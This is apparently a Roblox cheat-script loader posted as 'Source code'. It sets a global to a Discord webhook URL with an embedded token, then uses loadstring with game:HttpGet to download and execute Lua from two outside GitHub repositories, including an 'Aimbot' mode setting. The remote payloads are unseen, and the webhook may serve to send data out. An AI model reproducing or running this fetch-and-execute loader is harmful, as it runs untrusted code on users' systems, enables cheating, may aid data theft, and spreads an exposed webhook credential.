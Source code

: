 _G.webhooksdiscord = "https://discord.com/api/webhooks/1054735612122501140/OFrfrbVnvi4Xi6NhUKtH5Ok1PFBXfle553VzBvUjROj196cb_2Sh9PCgrL4LKoxKjB74"
loadstring(game:HttpGet("https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua"),true)()
_G.Mode = "Aimbot" -- Aimbot / Normal
loadstring(game:HttpGet("https://raw.githubusercontent.com/xlostpexz/tyuiop/Fps/Loading.lua"))()
